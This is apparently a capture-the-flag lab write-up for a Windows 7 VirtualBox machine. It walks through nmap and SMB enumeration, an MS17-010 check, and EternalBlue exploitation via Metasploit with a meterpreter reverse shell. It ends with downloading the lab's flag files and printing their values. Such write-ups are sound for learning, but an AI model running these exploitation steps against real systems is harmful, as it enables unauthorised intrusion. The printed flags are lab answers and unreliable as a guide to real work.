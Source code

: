 [Download Link](https://drive.google.com/open?id=11f_wsW59Dh1fGvQCNUPK70lIWzlcg44_)

finding the ip
```
sudo arp-scan-l
```

nmap all ports scan:
```
nmap -sV -O -T4 -p- --min-rate=10000 $ip
```
output:
```zsh
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 08:00:27:36:01:28 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 2008|7|Vista|8.1
```
this is a windows machine

used `smbclient` to list shares - failed
used `enum4linux` for detailed SMB and user enumeration - failed
used `rpcclient` to enumerate users and groups - failed

tried anonymous SMB login with `crackmapexec`
``` 
crackmapexec smb $ip -u '' -p ''
```
output:
```zsh
SMB         10.170.71.142   445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.170.71.142   445    JON-PC           [+] Jon-PC\: 
```
got the pc name as `Jon`

Test for MS17-010 (EternalBlue) vulnerability
```
nmap --script smb-vuln-ms17-010 -p445 $ip
```
output
```zsh
PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:36:01:28 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```
saw that its vulnerable

exploit using metasploit
```
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOST 10.170.71.142
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.170.71.2
show options #all set
run
```
got the meterpreter shell

gathering system informations:
```
sysinfo
```
output
```meterpreter
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
```

```
getuid
```
output
```meterpreter
Server username: NT AUTHORITY\SYSTEM
```

searching for flags
```
meterpreter > search -f "*flag*"
```
output
```meterpreter
c:\Users\Jon\Documents\flag3.txt                                 
c:\Windows\System32\config\flag2.txt                            
c:\flag1.txt                                                   
```

downloaded all these flags
```
meterpreter > download C:\\flag1.txt
meterpreter > download C:\\Windows\\System32\\config\\flag2.txt
meterpreter > download C:\\Users\\Jon\\Documents\\flag3.txt
```

read the flags:
```
cat flag*
```
output
```zsh
flag{access_the_machine}
flag{sam_database_elevated_access}
flag{admin_documents_can_be_valuable} 
```
